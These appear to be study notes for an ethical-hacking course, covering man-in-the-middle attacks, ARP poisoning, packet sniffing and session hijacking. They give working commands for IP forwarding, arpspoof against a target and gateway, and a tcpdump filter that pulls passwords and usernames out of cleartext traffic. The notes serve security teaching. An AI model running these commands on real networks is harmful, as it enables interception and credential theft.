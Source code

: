 ```
- Under Executive Office, select Exec.
- From the task bar, open Chrome.
- In the URL field, type rmksupplies.com and press Enter.
Notice that the page was redirected to RUS Office Supplies despite the web address not changing.
```
MITM Attack:
- ArpSpoof
- SSLStrip
- Replay Attack
- SSL Downgrade
- DNS Cache Poisoning

### ARP Poisoning Attack
Attacker sends his MAC to the victims ARP table and associates that with the Default Gateway. When the Victim wants to go to a domain the attacker receives the request and fowards it through the router to the internet. <br><br>
Make host act like Router:
```
root# sysctl -w net.ipv4.ip_forward=1
net.ipv4.ip_forward = 1
```
```
root# arpspoof -i eth1 -t <target_ip> <destination_gateway>
```
```
root# tcpdump -i eth1 port http or port ftp -l -A | egrep "pass=|password=|user=|username=|login=|pass:|password:|user:|username:|login:|pass |user |PASS |USER "
```
### TCPDump
You can do this for many things, mainly a CLI like Wireshark. Monitor traffic on the network.
```
root# tcpdump port 21
listening on eth1
```
### SMAC 2.0 | GUI
You can use this for spoofing MAC addresses on a network.



### Countermeasures for Sniffing
Write packet capture files from interface 1 into mycap.pcap
```
c:\>windump -i 1 -w C:\test\mycap.pcap
```
### Session Hijacking Process
Session ID is the key for this to work! | Happens on the Application and Network Layers |
- Sniff
- Monitor
- Desynch the session
- Predict the session ID
- Inject commands
